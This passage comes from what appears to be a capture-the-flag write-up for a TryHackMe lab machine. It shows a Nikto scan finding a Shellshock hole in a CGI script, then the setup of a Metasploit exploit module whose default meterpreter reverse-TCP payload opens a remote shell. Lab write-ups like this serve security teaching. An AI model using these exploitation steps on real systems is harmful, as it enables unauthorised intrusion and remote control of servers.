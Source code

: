 Awesome stuff! We can utilise it by using `ssh user@10.10.60.101 -i id_rsa`, but we need to find the username.

Let's try a Nikto scan to see if there is a vulnerabilty lurking out:

## Nikto Results

```bash
┌──(nxg㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ nikto --host http://10.10.60.101
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.60.101
+ Target Hostname:    10.10.60.101
+ Target Port:        80
+ Start Time:         2021-06-10 07:13:25 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Uncommon header '93e4r0-cve-2014-6271' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
[...]
```

## Exploitation

Ok, a Shellshock vulnerability is found.

Now let's exploit it using Metasploit:

```bash
┌──(nxg㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ msfconsole -q                                                                                                                                      

msf5 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
```